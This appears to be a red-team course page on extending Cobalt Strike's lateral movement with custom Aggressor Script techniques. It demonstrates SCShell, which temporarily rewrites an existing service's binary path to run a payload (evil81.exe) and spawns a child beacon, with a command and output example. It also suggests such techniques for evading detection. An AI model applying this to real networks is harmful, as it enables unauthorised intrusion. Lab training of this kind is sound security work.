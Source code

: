 # Custom Techniques

Both the `jump` and `remote-exec` commands can be extended via Aggressor Script to add custom techniques.  These can leverage any post-ex capability in Beacon, including PowerShell scripts, .NET assemblies, BOFs, and reflective DLLs.

### SCShell <a href="#el_1734863322475_381" id="el_1734863322475_381"></a>

One example is Charles Hamilton's [SCShell](https://github.com/Mr-Un1k0d3r/SCShell/tree/master/CS-BOF) project.  This implements a variation of PsExec, where an existing service is temporarily modified to run a payload and then restored afterwards, instead of a new service being created.

The project includes a CNA (Aggressor Script) file, which registers the technique via the [beacon\_remote\_exploit\_register](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#beacon_remote_exploit_register) function.  Simply load `C:\Tools\SCShell\CS-BOF\scshell.cna` into the client by going to **Cobalt Strike > Script Manager**.  Then new `scshell`/`scshell64` exploits will be available.

<figure><img src="https://lwfiles.mycourse.app/66e95234fe489daea7060790-public/3248cb63624714b6dbae1cca6fee9b53.png" alt="" width="100%"><figcaption></figcaption></figure>

```
beacon> jump scshell64 lon-ws-1 smb
[*] Tasked beacon to jump to lon-ws-1 (windows/beacon_bind_pipe (\\.\pipe\TSVCPIPE-4b2f70b3-ceba-42a5-a4b5-704e1c41337)) via SCShell

Trying to connect to lon-ws-1
SC_HANDLE Manager 0x000001EE3EBD50F0
Opening defragsvc
SC_HANDLE Service 0x000001EE3EBD5120
LPQUERY_SERVICE_CONFIGA need 0x00000142 bytes
Original service binary path "C:\Windows\system32\svchost.exe -k defragsvc"
Service path was changed to "C:\Windows\System32\evil81.exe"
Service was started
Service path was restored to "C:\Windows\system32\svchost.exe -k defragsvc"

[+] established link to child beacon: 10.10.120.10
```

Custom techniques are useful when needing to simulate specific TTPs that are not included in Cobalt Strike by default, or to push back where the default techniques are detected.
